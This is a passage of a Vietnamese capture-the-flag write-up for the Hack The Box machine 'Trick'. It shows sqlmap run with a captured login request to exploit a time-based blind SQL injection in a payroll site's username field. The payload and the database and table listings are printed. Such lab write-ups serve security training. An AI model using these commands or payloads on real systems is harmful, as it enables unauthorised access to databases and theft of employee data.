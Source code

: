 Một hồi dạo quanh trang web, có vẻ như trang web này không có tính năng nào thú vị để khai thác, chỉ đơn thuần là CRUD.
# `EXPLOITATION`
Với các thông tin trên, sử dụng công cụ `sqlmap` để dễ dàng khai thác lỗ hổng trang web một cách nhanh chóng.

Bắt gói tin POST khi đăng nhập, và ghi nó vào file `trick.req` để chuẩn bị cho việc sử dụng `sqlmap`

```console
kali@kali:~/machines.HTB/Trick/exploit$ cat trick.req 
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: http://preprod-payroll.trick.htb
Connection: keep-alive
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=kuiun3iismcup936p4bh4qbce3

username=username&password=password
```

Thực hiện lấy thông tin các `database` hiện có trong server.

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --dbs --batch
<--SNIP-->
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 6229 FROM (SELECT(SLEEP(5)))QBCU) AND 'zlTF'='zlTF&password=password
---
<--SNIP-->
available databases [2]:
[*] information_schema
[*] payroll_db

```

→ Ngoài database mặc định ra của MySQL thì có database `payroll_db`.

Tiếp theo lấy các `tables` có trong `payroll_db`.

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --tables -D payroll_db
<--SNIP-->
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
```